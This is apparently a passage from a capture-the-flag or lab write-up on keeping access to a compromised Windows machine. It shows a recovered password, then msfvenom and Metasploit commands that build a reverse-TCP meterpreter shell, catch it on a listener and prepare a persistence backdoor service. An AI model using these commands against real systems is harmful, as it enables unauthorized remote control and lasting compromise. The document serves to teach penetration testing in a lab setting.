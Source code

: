 ![](./2020-11-21_00-08.png)

`MYpassword123#`

## Maintaining Access

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.

This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

**Generating a Payload w/ msfvenom**

1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell
   1. ![](https://i.imgur.com/QMUjy24.png)
2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`
5. After setting your THM IP address as your "LHOST", start the listener with `run`
6. Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7. Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

